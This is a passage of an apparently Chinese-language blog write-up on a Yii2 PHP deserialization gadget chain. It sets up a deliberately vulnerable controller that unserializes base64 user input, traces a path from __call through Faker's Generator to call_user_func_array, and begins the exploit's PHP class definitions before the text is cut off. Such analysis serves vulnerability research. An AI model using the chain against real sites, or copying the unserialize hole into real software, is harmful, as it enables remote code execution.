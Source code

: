 然后在controllers目录下添加个控制器

	<?php
	namespace app\controllers;
 	
 
	class SerializeController extends \yii\web\Controller
	{
    	public function actionSerialize($data){
        	return unserialize(base64_decode($data));
    	}
	}
 	
	?>

![](https://cdn.jsdelivr.net/gh/ITroyeSivan/picture/blogpictures/20210922231834.png)

## 链二
还是从链一的destruct入手，上一条用了close方法，这次尝试一下call。
全局搜索__call，然后在\vendor\fzaninotto\faker\src\Faker\Generator.php找到了个合适的：

![](https://cdn.jsdelivr.net/gh/ITroyeSivan/picture/blogpictures/20210923131019.png)

跟进format，看到了call_user_func_array

![](https://cdn.jsdelivr.net/gh/ITroyeSivan/picture/blogpictures/20210923131200.png)

看下这个是不是可控的参数

![](https://cdn.jsdelivr.net/gh/ITroyeSivan/picture/blogpictures/20210923131528.png)

很明显这是可控的。
但是reset里面close是无参方法，传到call里面method就等于close，而attributes为空。到这里其实就很熟悉了，因为这个和链一一样，只要调用一个包含call_user_func的参数可控的无参方法即可。（方法不唯一）

	<?php

	namespace yii\db{

    	use Faker\Generator;

    	class BatchQueryResult{
        	private $_dataReader;
        	public function __construct()
        	{
            	$this->_dataReader=new Generator();
        	}
    	}
	}
	namespace Faker{

    	use yii\rest\IndexAction;

    	class Generator{
        	protected $formatters;
        	public function __construct()
        	{
            	$Troy3e=new IndexAction();
            	$this->formatters['close']=[$Troy3e,'run'];
        	}
    	}
	}
	namespace yii\rest{
